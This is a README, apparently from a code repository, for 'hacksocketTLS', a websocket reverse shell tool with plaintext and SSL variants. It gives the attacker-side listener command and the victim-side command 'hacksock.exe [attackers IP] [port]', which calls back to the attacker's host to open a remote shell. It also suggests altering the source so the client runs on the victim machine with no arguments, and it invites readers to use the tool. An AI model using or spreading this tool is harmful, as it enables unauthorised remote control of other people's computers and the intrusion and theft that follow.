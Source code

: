 ```
  _                _                   _        _ _______ _       _____ 
 | |              | |                 | |      | |__   __| |     / ____|
 | |__   __ _  ___| | _____  ___   ___| | _____| |_ | |  | |    | (___  
 | '_ \ / _` |/ __| |/ / __|/ _ \ / __| |/ / _ \ __|| |  | |     \___ \ 
 | | | | (_| | (__|   <\__ \ (_) | (__|   <  __/ |_ | |  | |____ ____) |
 |_| |_|\__,_|\___|_|\_\___/\___/ \___|_|\_\___|\__||_|  |______|_____/ 
```

A websocket based reverse shell tool.

# To use:

On the attackers machine use the python server

`python3 hacksock-srv.py --host [Listening IP] --port [Listening Port] [--ssl]`

On the victim machine, either alter the source so no arguments are required or run the below:

`hacksock.exe [attackers IP] [port]`

# Bugs:

- Code was written in a field therefore full of bugs
- The server accepts multiple connections however there is no way to switch at present. Functionality coming soon.
- Feel free to use and improve. #fixmycode

# Branches:
- plaintext: Plain-text websocket client
- secure/main: SSL websocket client

The python server supports both as detailed using the `--ssl` switch.
